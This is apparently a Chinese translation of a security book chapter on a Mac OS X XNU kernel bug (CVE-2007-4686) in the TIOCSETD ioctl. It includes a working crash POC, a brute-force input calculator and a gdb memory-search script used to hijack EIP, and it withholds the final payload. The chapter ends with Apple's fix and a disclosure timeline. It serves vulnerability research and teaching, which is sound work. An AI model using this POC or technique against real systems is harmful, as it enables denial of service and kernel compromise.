



# 第七章：比 4.4BSD 更古老的漏洞

### 注意

*2007 年 3 月 3 日星期六*

*亲爱的日记*，

上周我的 Apple MacBook 终于到了。在熟悉了 Mac OS X 平台后，我决定更仔细地查看 OS X 的 XNU 内核。在花了几小时挖掘内核代码后，我发现了一个当内核尝试处理特殊 TTY IOCTL 时出现的良好漏洞。这个漏洞很容易触发，我编写了一个 POC 代码，允许无特权的本地用户通过内核恐慌使系统崩溃。像往常一样，我接着尝试开发一个利用程序，看看这个漏洞是否允许任意代码执行。这时，事情变得有点复杂。为了开发利用代码，我需要一种调试 OS X 内核的方法。如果你拥有两台 Mac，这不成问题，但我只有一台：我的全新 MacBook。

# 7.1 漏洞发现

首先，我下载了 XNU 内核的最新源代码版本，^([75]) 然后我以以下方式搜索漏洞：

### 注意

*我在本章中使用了装有 OS X 10.4.8 和内核版本 xnu-792.15.4.obj~4/RELEASE_I386 的 Intel Mac 作为平台*。

+   第一步：列出内核的 IOCTL。

+   第二步：确定输入数据。

+   第三步：跟踪输入数据。

这些步骤将在以下章节中详细说明。

## 第一步：列出内核的 IOCTL

要生成内核的 IOCTL 列表，我只需在内核源代码中搜索常用的 IOCTL 宏。每个 IOCTL 都分配了自己的编号，通常由宏创建。根据 IOCTL 类型，OS X 的 XNU 内核定义了以下宏：`_IOR`、`_IOW` 和 `_IOWR`。

```
osx$ `pwd`
/Users/tk/xnu-792.13.8

osx$ `grep -rnw -e _IOR -e _IOW -e _IOWR *`
[..]
xnu-792.13.8/bsd/net/bpf.h:161:#define BIOCGRSIG        _IOR('B',114, u_int)
xnu-792.13.8/bsd/net/bpf.h:162:#define BIOCSRSIG        _IOW('B',115, u_int)
xnu-792.13.8/bsd/net/bpf.h:163:#define BIOCGHDRCMPLT    _IOR('B',116, u_int)
xnu-792.13.8/bsd/net/bpf.h:164:#define BIOCSHDRCMPLT    _IOW('B',117, u_int)
xnu-792.13.8/bsd/net/bpf.h:165:#define BIOCGSEESENT     _IOR('B',118, u_int)
xnu-792.13.8/bsd/net/bpf.h:166:#define BIOCSSEESENT     _IOW('B',119, u_int)
[..]
```

现在，我有了 XNU 内核支持的 IOCTL 列表。为了找到实现 IOCTL 的源文件，我搜索了整个内核源代码中的列表中的每个 IOCTL 名称。以下是一个 `BIOCGRSIG` IOCTL 的示例：

```
osx$ `grep --include=*.c -rn BIOCGRSIG *`
xnu-792.13.8/bsd/net/bpf.c:1143:        case BIOCGRSIG:
```

## 第二步：确定输入数据

为了确定 IOCTL 请求的用户提供的输入数据，我查看了一些处理请求的内核函数。我发现这些函数通常期望一个名为 `cmd` 的 `u_long` 类型的参数和一个名为 `data` 的 `caddr_t` 类型的第二个参数。

这里有一些示例：

**源代码文件**

*xnu-792.13.8/bsd/netat/at.c*

```
[..]
135 int
136 at_control(so, `cmd`, `data`, ifp)
137      struct socket *so;
138      `u_long cmd;`
139      `caddr_t data;`
140      struct ifnet *ifp;
141 {
[..]
```

**源代码文件**

*xnu-792.13.8/bsd/net/if.c*

```
[..]
1025 int
1026 ifioctl(so, `cmd`, `data`, p)
1027     struct socket *so;
1028     `u_long cmd;`
1029     `caddr_t data;`
1030     struct proc *p;
1031 {
[..]
```

**源代码文件**

*xnu-792.13.8/bsd/dev/vn/vn.c*

```
[..]
877 static int
878 vnioctl(dev_t dev, `u_long cmd`, `caddr_t data`,
879     __unused int flag, struct proc *p,
880     int is_char)
881 {
[..]
```

这些函数参数的名称相当描述性：`cmd` 参数包含请求的 IOCTL 代码，而 `data` 参数包含用户提供的 IOCTL 数据。

在 Mac OS X 上，通常使用 `ioctl()` 系统调用来向内核发送 IOCTL 请求。这个系统调用的原型如下：

```
osx$ `man ioctl`
[..]
`SYNOPSIS`
   `#include <sys/ioctl.h>`

   int
   `ioctl`(int d, unsigned long request, char *argp);

`DESCRIPTION`
   The `ioctl()` function manipulates the underlying device parameters of spe-
   cial files. In particular, many operating characteristics of character
   special files (e.g. terminals) may be controlled with `ioctl()` requests.
   The argument d must be an open file descriptor.

   An ioctl request has encoded in it whether the argument is an "in"
   parameter or "out" parameter, and the size of the argument argp in
   bytes. Macros and defines used in specifying an ioctl request are
   located in the file <sys/ioctl.h>.
[..]
```

如果向内核发送 IOCTL 请求，则必须将 `request` 参数填充为适当的 IOCTL 代码，并将 `argp` 参数填充为用户提供的 IOCTL 输入数据。`ioctl()` 的 `request` 和 `argp` 参数对应于内核函数参数 `cmd` 和 `data`。

我找到了我想要的东西：大多数处理传入 IOCTL 请求的内核函数都接受一个名为 `data` 的参数，该参数包含或指向用户提供的 IOCTL 输入数据。

## 第 3 步：追踪输入数据

在我发现内核中处理 IOCTL 请求的位置后，我在寻找潜在漏洞位置的同时追踪了内核函数中的输入数据。在阅读代码时，我遇到了一些看起来很有趣的位置。我发现的最有意思的潜在漏洞是当内核尝试处理一个特殊的 TTY IOCTL 请求时。以下列表显示了 XNU 内核源代码中的相关行。

**源代码文件**

*xnu-792.13.8/bsd/kern/tty.c*

```
[..]
 816    /*
 817     * Ioctls for all tty devices.  Called after line-discipline specific ioctl
 818     * has been called to do discipline-specific functions and/or reject any
 819     * of these ioctl commands.
 820     */
 821    /* ARGSUSED */
 822    int
 823    ttioctl(register struct tty *tp,
 824       `u_long cmd`, `caddr_t data`, int flag,
 825       struct proc *p)
 826    {
[..]
 `872       switch (cmd) {            /* Process the ioctl. */`
[..]
`1089       case TIOCSETD: {        /* set line discipline */`
`1090           register int t = *(int *)data;`
1091           dev_t device = tp->t_dev;
1092
`1093           if (t >= nlinesw)`
1094               return (ENXIO);
`1095           if (t != tp->t_line) {`
1096               s = spltty();
1097               (*linesw[tp->t_line].l_close)(tp, flag);
`1098               error = (*linesw[t].l_open)(device, tp);`
1099               if (error) {
1100                   (void)(*linesw[tp->t_line].l_open)(device, tp);
1101                   splx(s);
1102                   return (error);
1103               }
1104               tp->t_line = t;
1105               splx(s);
1106           }
1107           break;
1108       }
[..]
```

如果向内核发送 `TIOCSETD` IOCTL 请求，则选择第 1089 行的 switch case。在第 1090 行，用户提供的 `data` 类型为 `caddr_t`，它仅仅是 `char *` 的 typedef，被存储在有符号整型变量 `t` 中。然后在第 1093 行，将 `t` 的值与 `nlinesw` 进行比较。由于 `data` 是由用户提供的，因此可能提供一个字符串值，该值对应于 `0x80000000` 或更大的无符号整数值。如果这样做，由于第 1090 行的类型转换，`t` 将会得到一个负值。示例 7-1") 说明了 `t` 如何变成负值：

示例 7-1. 展示类型转换行为的示例程序 (*conversion_bug_example.c*)

```
01    typedef char *  caddr_t;
02
03    // output the bit pattern
04    void
05    bitpattern (int a)
06    {
07           int             m       = 0;
08           int             b       = 0;
09           int             cnt     = 0;
10           int             nbits   = 0;
11           unsigned int    mask    = 0;
12
13           nbits = 8 * sizeof (int);
14           m = 0x1 << (nbits - 1);
15
16           mask = m;
17           for (cnt = 1; cnt <= nbits; cnt++) {
18                   b = (a & mask) ? 1 : 0;
19                   printf ("%x", b);
20                   if (cnt % 4 == 0)
21                           printf (" ");
22                   mask >>= 1;
23           }
24           printf ("\n");
25    }
26
27    int
28    main ()
29    {
30           caddr_t data    = "\xff\xff\xff\xff";
31           int     t       = 0;
32
33           t = *(int *)data;
34
35           printf ("Bit pattern of t: ");
36           bitpattern (t);
37
38           printf ("t = %d (0x%08x)\n", t, t);
39
40           return 0;
41    }
```

第 30、31 和 33 行几乎与 OS X 内核源代码中的行相同。在这个例子中，我选择了硬编码的值 `0xffffffff` 作为 IOCTL 输入数据（见第 30 行）。在第 33 行进行类型转换后，打印了位模式以及 `t` 的十进制值到控制台。当执行示例程序时，会得到以下输出：

```
osx$ `gcc -o conversion_bug_example conversion_bug_example.c`

osx$ `./conversion_bug_example`
Bit pattern of t: 1111 1111 1111 1111 1111 1111 1111 1111
t = −1 (0xffffffff)
```

输出显示，如果将由 4 个 `0xff` 字节值组成的字符串转换为有符号整型，`t` 将得到 -1 的值。有关类型转换及其相关安全问题的更多信息，请参阅附录 A.3。

如果 `t` 为负，内核代码第 1093 行的检查将返回 `FALSE`，因为有符号整型变量 `nlinesw` 的值大于零。如果发生这种情况，用户提供的 `t` 值将得到进一步的处理。在第 1098 行，`t` 的值被用作函数指针数组中的索引。由于我可以控制该数组中的索引，我可以指定内核将执行的任意内存位置。这导致了对内核执行流程的完全控制。感谢苹果公司，这个出色的漏洞！

这里是漏洞的解剖结构，如图 图 7-1 所示：

1.  函数指针数组`linesw[]`被引用。

1.  用户控制的`t`值被用作`linesw[]`数组的索引。

1.  根据 用户可控的内存位置，引用了`l_open()`函数的假设地址。

1.  `l_open()` 假设地址被引用并调用。

1.  `l_open()` 假设地址的值被复制到指令指针（`EIP`寄存器）。



图 7-1. 我在 OS X 的 XNU 内核中发现的漏洞描述

因为`t`的值是由用户提供的（见（2）），所以可以控制被复制到`EIP`的值的地址。

# 7.2 利用

在我发现这个漏洞之后，我做了以下操作来控制`EIP`：

+   第一步：触发系统崩溃（拒绝服务）的漏洞

+   第二步：准备内核调试环境。

+   第三步：将调试器连接到目标系统。

+   第四步：控制`EIP`。

## 第一步：触发系统崩溃（拒绝服务）

一旦我发现了这个漏洞，触发它并导致系统崩溃就变得很容易。我需要做的只是向内核发送一个格式错误的`TIOCSETD` IOCTL 请求。示例 7-2 展示了我所开发的用于导致崩溃的 POC 的源代码。

示例 7-2. 我编写的用于触发在 OS X 内核中发现的漏洞的 POC 代码（*poc.c*）

```
01    #include <sys/ioctl.h>
02
03    int
04    main (void)
05    {
06       unsigned long    ldisc = 0xff000000;
07
08       ioctl (0, TIOCSETD, &ldisc);
09
10       return 0;
11    }
```

一台全新的 MacBook：$1,149。一台 LED Cinema Display 显示器：$899。仅用 11 行代码就崩溃了 Mac OS X 系统：无价之宝。

我随后以非特权用户身份编译并测试了 POC 代码：

```
osx$ `uname -a`
Darwin osx 8.8.3 Darwin Kernel Version 8.8.3: Wed
 Oct 18 21:57:10 PDT 2006;                            →
 root:xnu-792.15.4.obj~/RELEASE_I386 i386 i386

osx$ `id`
uid=502(seraph) gid=502(seraph) groups=502(seraph)

osx$ `gcc -o poc poc.c`

osx$ `./poc`
```

执行 POC 代码后，我看到了标准的 Mac OS X 崩溃屏幕，^([76]) 如图 7-2 所示。


图 7-2. Mac OS X 内核恐慌信息

如果发生此类内核恐慌，崩溃的详细信息将被添加到 */Library/Logs/* 文件夹中的日志文件中。我重新启动了系统并打开了该文件。

```
osx$ `cat /Library/Logs/panic.log`
Sat Mar 3 13:30:58 2007
panic(cpu 0 caller 0x001A31CE): Unresolved kernel trap (CPU 0, Type
 14=page fault), registers:
CR0: 0x80010033, CR2: 0xe0456860, CR3: 0x00d8a000, CR4: 0x000006e0
EAX: 0xe0000000, EBX: 0xff000000, ECX: 0x04000001, EDX: 0x0386c380
CR2: 0xe0456860, EBP: 0x250e3d18, ESI: 0x042fbe04, EDI: 0x00000000
EFL: 0x00010287, EIP: 0x0035574c, CS:  0x00000008, DS:  0x004b0010

Backtrace, Format - Frame : Return Address (4 potential args on stack)
0x250e3a68 : 0x128d08 (0x3c9a14 0x250e3a8c 0x131de5 0x0)
0x250e3aa8 : 0x1a31ce (0x3cf6c8 0x0 0xe 0x3ceef8)
0x250e3bb8 : 0x19a874 (0x250e3bd0 0x1 0x0 0x42fbe04)
0x250e3d18 : 0x356efe (0x42fbe04 0x8004741b 0x250e3eb8 0x3)
0x250e3d68 : 0x1ef4de (0x4000001 0x8004741b 0x250e3eb8 0x3)
0x250e3da8 : 0x1e6360 (0x250e3dd0 0x297 0x250e3e08 0x402a1f4)
0x250e3e08 : 0x1de161 (0x3a88084 0x8004741b 0x250e3eb8 0x3)
0x250e3e58 : 0x330735 (0x4050440
*********
```

看起来我可以作为一个非特权用户使系统崩溃。我是否也可以在 OS X 内核的特权上下文中执行任意代码？为了回答这个问题，我必须深入了解内核的内部工作原理。

## 第二步：准备内核调试环境

到这一点，我需要能够调试内核。如我之前提到的，如果你拥有两台 Mac，这没问题，但我手头只有一台 MacBook。因此，我必须找到另一种调试内核的方法。我通过在 Linux 主机上构建和安装 Apple 的 GNU 调试器来解决这个问题，然后将主机连接到我的 MacBook。有关构建此类调试器主机系统的说明，请参阅第 B.5 节。

## 第 3 步：将调试器连接到目标系统

在 Linux 主机上构建完 Apple 的 gdb 之后，我使用以太网交叉线缆将系统连接起来，如图图 7-3 所示。



图 7-3. 我为远程调试 Mac OS X 内核的设置

然后，我启动了 Mac OS X 目标系统，启用了远程内核调试，并重新启动了系统，以便更改生效:^([77])

```
osx$ `sudo nvram boot-args="debug=0x14e"`

osx$ `sudo reboot`
```

在 Mac OS X 目标机器重新启动后，我启动了 Linux 主机，并确保我能够连接到目标机器：

```
linux$ `ping -c1 10.0.0.2`
PING 10.0.0.2 (10.0.0.2) from 10.0.0.3 : 56(84) bytes of data.
64 bytes from 10.0.0.2: icmp_seq=1 ttl=64 time=1.08 ms

--- 10.0.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% loss, time 0ms
rtt min/avg/max/mdev = 1.082/1.082/1.082/0.000 ms
```

我在 Linux 系统上为目标添加了一个永久的 ARP 条目，以在两台机器之间建立稳定的连接，确保在调试目标机器的内核时连接不会断开：

```
linux$ `su -`
Password:

linux# `arp -an`
? (10.0.0.1) at 00:24:E8:A8:64:DA [ether] on eth0
? (10.0.0.2) at 00:17:F2:F0:47:19 [ether] on eth0

linux# `arp -s 10.0.0.2 00:17:F2:F0:47:19`

linux# `arp -an`
? (10.0.0.1) at 00:24:E8:A8:64:DA [ether] on eth0
? (10.0.0.2) at 00:17:F2:F0:47:19 [ether] `PERM` on eth0
```

然后，我以无权限用户身份登录到 Mac OS X 系统，并通过轻触系统的电源按钮生成一个不可屏蔽中断（NMI）。这让我在 MacBook 的屏幕上看到了以下输出：

```
Debugger called: <Button SCI>
Debugger called: <Button SCI>
cpu_interrupt: sending enter debugger signal (00000002) to cpu 1
ethernet MAC address: 00:17:f2:f0:47:19
ethernet MAC address: 00:17:f2:f0:47:19
ip address: 10.0.0.2
ip address: 10.0.0.2

Waiting for remote debugger connection.
```

在 Linux 主机上，我启动了内核调试器（有关如何构建此 gdb 版本的更多信息，请参阅第 B.5 节）：

```
linux# `gdb_osx KernelDebugKit_10.4.8/mach_kernel`
GNU gdb 2003-01-28-cvs (Mon Mar  5 16:54:25 UTC 2007)
Copyright 2003 Free Software Foundation, Inc.
GDB is free software, covered by the GNU General Public License, and you are
welcome to change it and/or distribute copies of it under certain conditions.
Type "show copying" to see the conditions.
There is absolutely no warranty for GDB.  Type "show warranty" for details.
This GDB was configured as "--host= --target=i386-apple-darwin".
```

然后，我指示调试器使用 Apple 的内核调试协议（kdp）：

```
(gdb) `target remote-kdp`
```

一旦调试器开始运行，我就第一次将其连接到目标系统的内核：

```
(gdb) `attach 10.0.0.2`
Connected.
0x001a8733 in lapic_dump () at /SourceCache/xnu/xnu-792.13.8/osfmk/i386/mp.c:332
332             int     i;
```

如调试器输出所示，似乎一切正常！当时 OS X 系统已经冻结，所以我继续使用以下调试器命令执行内核的执行：

```
(gdb) `continue`
Continuing.
```

现在已经为远程调试 Mac OS X 目标系统的内核做好了准备。

## 第 4 步：控制 EIP

在成功将调试器连接到目标系统的内核之后，我在 Mac OS X 机器上打开了一个终端，并再次执行了示例 7-2 中描述的 POC 代码：

```
osx$ `id`
uid=502(seraph) gid=502(seraph) groups=502(seraph)

osx$ `./poc`
```

OS X 系统立即冻结，我在 Linux 主机上得到了以下调试器输出：

```
Program received signal SIGTRAP, Trace/breakpoint trap.
0x0035574c in ttsetcompat (tp=0x37e0804, com=0x8004741b,
 data=0x2522beb8 "",                     → term=0x3)
 at /SourceCache/xnu/xnu-792.13.8/bsd/kern/tty_compat.c:145
145      */
```

为了查看导致`SIGTRAP`信号的真正原因，我查看了最后执行的内核指令（有关以下调试器命令的描述，请参阅第 B.4 节）：

```
(gdb) `x/1i $eip`
0x35574c <ttsetcompat+138>:     call   *0x456860(%eax)
```

显然，崩溃发生在内核尝试调用由`EAX`寄存器引用的地址时。接下来，我查看了寄存器的值：

```
(gdb) `info registers`
`eax            0xe0000000`       −536870912
ecx            0x4000001        67108865
edx            0x386c380        59163520
ebx            0xff000000       −16777216
esp            0x2522bc18       0x2522bc18
ebp            0x2522bd18       0x2522bd18
esi            0x37e0804        58591236
edi            0x0              0
eip            0x35574c         0x35574c
eflags         0x10287          66183
cs             0x8              8
ss             0x10             16
ds             0x4b0010         4915216
es             0x340010         3407888
fs             0x25220010       622985232
gs             0x48             72
```

调试器输出显示 `EAX` 的值为 `0xe0000000`。对我来说，这个值从哪里来并不明显，所以我反汇编了 `EIP` 附近的指令：

```
(gdb) `x/6i $eip - 15`
`0x35573d <ttsetcompat+123>:     mov    %ebx,%eax`
`0x35573f <ttsetcompat+125>:     shl    $0x5,%eax`
0x355742 <ttsetcompat+128>:     mov    %esi,0x4(%esp,1)
0x355746 <ttsetcompat+132>:     mov    0xffffffa8(%ebp),%ecx
0x355749 <ttsetcompat+135>:     mov    %ecx,(%esp,1)
`0x35574c <ttsetcompat+138>:     call   *0x456860(%eax)`
```

### 注意

*请注意，反汇编是 AT&T 风格*。

在地址 `0x35573d`，`EBX` 的值被复制到 `EAX`。下一条指令通过左移 5 位修改了这个值。在地址 `0x35574c`，这个值被用于计算 `call` 指令的操作数。那么 `EBX` 的值是从哪里来的？快速查看寄存器值揭示，`EBX` 正在保持值 `0xff000000`，这是我作为 `TIOCSETD` IOCTL 输入数据提供的值。`0xe0000000` 是我将提供的输入值左移 5 位的结果。正如预期的那样，我能够控制用于找到 `EIP` 寄存器新值的内存位置。我提供的输入数据的修改可以表示为

```
address of the new value for EIP = (IOCTL input data value << 5) + 0x456860
```

我可以通过两种方式为特定内存地址获取适当的 `TIOCSETD` 输入数据值：我可以尝试解决数学问题，或者我可以暴力破解这个值。我决定选择简单的方法，并编写以下程序来暴力破解这个值：

示例 7-3. 我编写的用于暴力破解 `TIOCSETD` 输入数据值的代码 (*addr_brute_force.c*)

```
01    #include <stdio.h>
02
03    #define MEMLOC          0x10203040
04    #define SEARCH_START    0x80000000
05    #define SEARCH_END      0xffffffff
06
07    int
08    main (void)
09    {
10       unsigned int    a, b = 0;
11
12       for (a = SEARCH_START; a < SEARCH_END; a++) {
13           b = (a << 5) + 0x456860;
14           if (b == MEMLOC) {
15               printf ("Value: %08x\n", a);
16               return 0;
17           }
18       }
19
20       printf ("No valid value found.\n");
21
22       return 1;
23    }
```

我编写了这个程序来回答这个问题：为了将内存地址 `0x10203040` 的值复制到 `EIP` 寄存器，我需要向内核发送什么样的 `TIOCSETD` 输入数据？

```
osx$ `gcc -o addr_brute_force addr_brute_force.c`
osx$ `./addr_brute_force`
Value: 807ed63f
```

如果 `0x10203040` 指向我想复制到 `EIP` 的值，我必须提供值 `0x807ed63f` 作为 `TIOCSETD` IOCTL 的输入。

然后，我尝试操纵 `EIP`，使其指向地址 `0x65656565`。为了实现这一点，我必须找到内核中指向该值的内存位置。为了找到内核中的合适内存位置，我编写了以下 gdb 脚本：

示例 7-4. 用于在内核中查找指向特殊字节模式的内存位置的脚本 (*search_memloc.gdb*)

```
01    set $MAX_ADDR = 0x00600000
02
03    define my_ascii
04      if $argc != 1
05        printf "ERROR: my_ascii"
06      else
07        set $tmp = *(unsigned char *)($arg0)
08        if ($tmp < 0x20 || $tmp > 0x7E)
09          printf "."
10        else
11          printf "%c", $tmp
12        end
13      end
14    end
15
16    define my_hex
17      if $argc != 1
18        printf "ERROR: my_hex"
19      else
20        printf "%02X%02X%02X%02X ", \
21          *(unsigned char*)($arg0 + 3), *(unsigned char*)($arg0 + 2),     \
22          *(unsigned char*)($arg0 + 1), *(unsigned char*)($arg0 + 0)
23      end
24    end
25
26    define hexdump
27      if $argc != 2
28        printf "ERROR: hexdump"
29      else
30        if ((*(unsigned char*)($arg0 + 0) == (unsigned char)($arg1 >>  0)))
31          if ((*(unsigned char*)($arg0 + 1) == (unsigned char)($arg1 >>  8)))
32            if ((*(unsigned char*)($arg0 + 2) == (unsigned char)($arg1 >> 16)))
33              if ((*(unsigned char*)($arg0 + 3) == (unsigned char)($arg1 >> 24)))
34                printf "%08X : ", $arg0
35                my_hex $arg0
36                my_ascii $arg0+0x3
37                my_ascii $arg0+0x2
38                my_ascii $arg0+0x1
39                my_ascii $arg0+0x0
40                printf "\n"
41              end
42            end
43          end
44        end
45      end
46    end
47
48    define search_memloc
49      set $max_addr = $MAX_ADDR
50      set $counter = 0
51      if $argc != 2
52        help search_memloc
53      else
54        while (($arg0 + $counter) <= $max_addr)
55          set $addr = $arg0 + $counter
56          hexdump $addr $arg1
57          set $counter = $counter + 0x20
58        end
59      end
60    end
61    document search_memloc
62    Search a kernel memory location that points to PATTERN.
63    Usage: search_memloc ADDRESS PATTERN
64    ADDRESS - address to start the search
65    PATTERN - pattern to search for
66    end
```

示例 7-4") 中的 gdb 脚本接受两个参数：搜索的起始地址和要搜索的模式。我想找到指向值 `0x65656565` 的内存位置，所以我以以下方式使用脚本：

```
(gdb) `source search_memloc.gdb`
(gdb) `search_memloc 0x400000 0x65656565`
0041BDA0 : 65656565 eeee
0041BDC0 : 65656565 eeee
0041BDE0 : 65656565 eeee
0041BE00 : 65656565 eeee
0041BE20 : 65656565 eeee
0041BE40 : 65656565 eeee
0041BE60 : 65656565 eeee
0041BE80 : 65656565 eeee
0041BEA0 : 65656565 eeee
0041BEC0 : 65656565 eeee
00459A00 : 65656565 eeee
00459A20 : 65656565 eeee
00459A40 : 65656565 eeee
00459A60 : 65656565 eeee
00459A80 : 65656565 eeee
00459AA0 : 65656565 eeee
00459AC0 : 65656565 eeee
00459AE0 : 65656565 eeee
00459B00 : 65656565 eeee
00459B20 : 65656565 eeee
Cannot access memory at address 0x4dc000
```

输出显示了脚本找到的指向值 `0x65656565` 的内存位置。我从列表中选择了第一个，调整了 示例 7-3") 中第 3 行定义的 `MEMLOC`，并让程序确定适当的 `TIOCSETD` 输入值：

```
osx$ `head −3 addr_brute_force.c`
#include <stdio.h>

#define MEMLOC    `0x0041bda0`

osx$ `gcc -o addr_brute_force addr_brute_force.c`

osx$ `./addr_brute_force`
Value: 87ffe2aa
```

我随后更改了 示例 7-2 中的 IOCTL 输入值，将内核调试器连接到 OS X，并执行了以下代码：

```
osx$ `head −6 poc.c`
#include <sys/ioctl.h>

int
main (void)
{
      unsigned long     ldisc = `0x87ffe2aa`;

osx$ `gcc -o poc poc.c`

osx$ `./poc`
```

OS X 机器再次冻结，Linux 主机上的调试器显示了以下输出：

```
Program received signal SIGTRAP, Trace/breakpoint trap.
`0x65656565 in ?? ()`

(gdb) `info registers`
eax            0xfffc5540       −240320
ecx            0x4000001        67108865
edx            0x386c380        59163520
ebx            0x87ffe2aa       −2013273430
esp            0x250dbc08       0x250dbc08
ebp            0x250dbd18       0x250dbd18
esi            0x3e59604        65377796
edi            0x0              0
`eip            0x65656565       0x65656565`
eflags         0x10282          66178
cs             0x8              8
ss             0x10             16
ds             0x3e50010        65339408
es             0x3e50010        65339408
fs             0x10             16
gs             0x48             72
```

如调试器输出所示，`EIP` 寄存器的值现在是 `0x65656565`。在此点，我能够控制 `EIP`，但要在内核级别利用该漏洞以实现任意代码执行仍然是一个挑战。在 OS X 中，包括 Leopard，内核并没有映射到每个用户空间进程；它有自己的虚拟地址空间。因此，使用 Linux 或 Windows 的常见策略返回用户空间地址是不可能的。我通过使用我的提权有效载荷和对此有效载荷的引用对内核进行堆喷射来解决此问题。我通过利用 OS X 内核中的内存泄漏来实现这一点。然后我计算了一个适当的 `TIOCSETD` 输入值，该值指向有效载荷引用。然后将此值复制到 `EIP` 和 . . . bingo!

提供完整的有效载荷将违反法律，但如果您感兴趣，您可以在本书的网站上观看一段展示有效载荷在行动中的简短视频。^[[78])

# 7.3 漏洞补救措施

### 注意

*2007 年 11 月 14 日，星期三*

在我通知苹果公司有关该漏洞后，苹果公司通过添加对用户提供的 IOCTL 数据的额外检查来修复了它。

**源代码文件**

*xnu-792.24.17/bsd/kern/tty.c*^[[79])

```
[..]
1081       case TIOCSETD: {        /* set line discipline */
1082           register int t = *(int *)data;
1083           dev_t device = tp->t_dev;
1084
`1085           if (t >= nlinesw || t < 0)`
1086               return (ENXIO);
1087           if (t != tp->t_line) {
1088               s = spltty();
1089               (*linesw[tp->t_line].l_close)(tp, flag);
1090               error = (*linesw[t].l_open)(device, tp);
1091               if (error) {
1092                   (void)(*linesw[tp->t_line].l_open)(device, tp);
1093                   splx(s);
1094                   return (error);
1095               }
1096               tp->t_line = t;
1097               splx(s);
1098           }
1099           break;
1100       }
[..]
```

行 1085 现在检查 `t` 的值是否为负。如果是，则不会进一步处理用户提供的资料。这个小小的改动足以成功修复漏洞。

# 7.4 学到的经验教训

作为一名程序员：

+   在可能的情况下，避免使用显式的类型转换（类型转换）。

+   总是验证输入数据。

# 7.5 补遗

### 注意

*2007 年 11 月 15 日，星期四*

由于漏洞已被修复，并且 OS X 的 XNU 内核的新版本已经可用，我今天在我的网站上发布了一份详细的安全公告。^[[80]) 该漏洞被分配了 CVE-2007-4686。

在我发布公告后，Theo de Raadt（OpenBSD 和 OpenSSH 的创始人）暗示这个漏洞比 4.4BSD 更老，大约 15 年前除了苹果公司外，每个人都已修复。1994 年 FreeBSD 的初始版本中，`TIOCSETD` IOCTL 的实现如下所示：^[[81])

```
[..]
804       case TIOCSETD: {        /* set line discipline */
805           register int t = *(int *)data;
806           dev_t device = tp->t_dev;
807
`808           if ((u_int)t >= nlinesw)`
`809               return (ENXIO);`
810           if (t != tp->t_line) {
811               s = spltty();
812               (*linesw[tp->t_line].l_close)(tp, flag);
813               error = (*linesw[t].l_open)(device, tp);
814               if (error) {
815                   (void)(*linesw[tp->t_line].l_open)(device, tp);
816                   splx(s);
817                   return (error);
818               }
819               tp->t_line = t;
820               splx(s);
821           }
822           break;
823       }
[..]
```

由于在 808 行`t`被转换为无符号整型，它永远不会变成负数。如果用户提供的数据大于`0x80000000`，函数将返回错误（见 809 行）。所以 Theo 是对的——这个漏洞确实在 1994 年就已经被修复了。图 7-4 显示了漏洞修复的时间线。



图 7-4. 从通知苹果到发布安全公告的时间线

## 备注

^([75])

^([76])

^([77])

^([78])

^([79])

^([80])

^([81])

* * *

^([75]) XNU 易受攻击的源代码修订版 792.13.8 可在[`www.opensource.apple.com/tarballs/xnu/xnu-792.13.8.tar.gz`](http://www.opensource.apple.com/tarballs/xnu/xnu-792.13.8.tar.gz)下载。

^([76]) 请参阅[“您需要重新启动计算机”（内核恐慌）消息出现（Mac OS X v10.5, 10.6）](http://support.apple.com/kb/TS3742)。

^([77]) 请参阅*Mac OS X 开发者库*中的“内核扩展编程主题：使用 GDB 调试内核扩展”以及“内核编程指南：出错时；调试内核”，链接为[`developer.apple.com/library/mac/#documentation/Darwin/Conceptual/KEXTConcept/KEXTConceptDebugger/debug_tutorial.html`](http://developer.apple.com/library/mac/#documentation/Darwin/Conceptual/KEXTConcept/KEXTConceptDebugger/debug_tutorial.html)和[`developer.apple.com/library/mac/documentation/Darwin/Conceptual/KernelProgramming/build/build.html#//apple_ref/doc/uid/TP30000905-CH221-CIHBJCGC`](http://developer.apple.com/library/mac/documentation/Darwin/Conceptual/KernelProgramming/build/build.html#//apple_ref/doc/uid/TP30000905-CH221-CIHBJCGC)。

^([78]) 请参阅[`www.trapkit.de/books/bhd/`](http://www.trapkit.de/books/bhd/)。

^([79]) 修复后的 XNU 版本 792.24.17 的源代码可在[`www.opensource.apple.com/tarballs/xnu/xnu-792.24.17.tar.gz`](http://www.opensource.apple.com/tarballs/xnu/xnu-792.24.17.tar.gz)找到。

^([80]) 描述 Mac OS X 内核漏洞详细信息的我的安全公告可以在[`www.trapkit.de/advisories/TKADV2007-001.txt`](http://www.trapkit.de/advisories/TKADV2007-001.txt)找到。

^([81]) 1994 年*tty.c*的初始 FreeBSD 版本可在[`www.freebsd.org/cgi/cvsweb.cgi/src/sys/kern/tty.c?rev=1.1;content-type=text/plain`](http://www.freebsd.org/cgi/cvsweb.cgi/src/sys/kern/tty.c?rev=1.1;content-type=text/plain)找到。
